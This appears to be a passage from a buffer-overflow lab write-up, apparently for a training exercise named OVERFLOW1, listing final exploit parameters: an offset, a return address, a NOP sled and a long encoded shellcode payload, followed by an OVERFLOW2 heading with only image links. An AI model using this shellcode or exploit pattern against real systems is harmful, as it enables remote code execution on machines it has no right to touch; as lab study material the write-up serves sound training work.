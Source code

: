 ### Final parameters
```
cmd = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
eip_val = "\xaf\x11\x50\x62"
nops = "\x90" * 16
payload = ("\xbb\xe9\xde\x2f\x5e\xd9\xc2\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1"
"\x52\x83\xc7\x04\x31\x5f\x0e\x03\xb6\xd0\xcd\xab\xb4\x05\x93"
"\x54\x44\xd6\xf4\xdd\xa1\xe7\x34\xb9\xa2\x58\x85\xc9\xe6\x54"
"\x6e\x9f\x12\xee\x02\x08\x15\x47\xa8\x6e\x18\x58\x81\x53\x3b"
"\xda\xd8\x87\x9b\xe3\x12\xda\xda\x24\x4e\x17\x8e\xfd\x04\x8a"
"\x3e\x89\x51\x17\xb5\xc1\x74\x1f\x2a\x91\x77\x0e\xfd\xa9\x21"
"\x90\xfc\x7e\x5a\x99\xe6\x63\x67\x53\x9d\x50\x13\x62\x77\xa9"
"\xdc\xc9\xb6\x05\x2f\x13\xff\xa2\xd0\x66\x09\xd1\x6d\x71\xce"
"\xab\xa9\xf4\xd4\x0c\x39\xae\x30\xac\xee\x29\xb3\xa2\x5b\x3d"
"\x9b\xa6\x5a\x92\x90\xd3\xd7\x15\x76\x52\xa3\x31\x52\x3e\x77"
"\x5b\xc3\x9a\xd6\x64\x13\x45\x86\xc0\x58\x68\xd3\x78\x03\xe5"
"\x10\xb1\xbb\xf5\x3e\xc2\xc8\xc7\xe1\x78\x46\x64\x69\xa7\x91"
"\x8b\x40\x1f\x0d\x72\x6b\x60\x04\xb1\x3f\x30\x3e\x10\x40\xdb"
"\xbe\x9d\x95\x4c\xee\x31\x46\x2d\x5e\xf2\x36\xc5\xb4\xfd\x69"
"\xf5\xb7\xd7\x01\x9c\x42\xb0\x27\x69\x9e\x33\x50\x6b\x1e\xb5"
"\x1b\xe2\xf8\xdf\x4b\xa3\x53\x48\xf5\xee\x2f\xe9\xfa\x24\x4a"
"\x29\x70\xcb\xab\xe4\x71\xa6\xbf\x91\x71\xfd\x9d\x34\x8d\x2b"
"\x89\xdb\x1c\xb0\x49\x95\x3c\x6f\x1e\xf2\xf3\x66\xca\xee\xaa"
"\xd0\xe8\xf2\x2b\x1a\xa8\x28\x88\xa5\x31\xbc\xb4\x81\x21\x78"
"\x34\x8e\x15\xd4\x63\x58\xc3\x92\xdd\x2a\xbd\x4c\xb1\xe4\x29"
"\x08\xf9\x36\x2f\x15\xd4\xc0\xcf\xa4\x81\x94\xf0\x09\x46\x11"
"\x89\x77\xf6\xde\x40\x3c\x16\x3d\x40\x49\xbf\x98\x01\xf0\xa2"
"\x1a\xfc\x37\xdb\x98\xf4\xc7\x18\x80\x7d\xcd\x65\x06\x6e\xbf"
"\xf6\xe3\x90\x6c\xf6\x21")
post = "\r\n"
```

## OVERFLOW2
### Fuzz and offset
![param](assets/markdown-img-paste-20210904085457290.png)

![fuzz](assets/markdown-img-paste-20210904085546606.png)
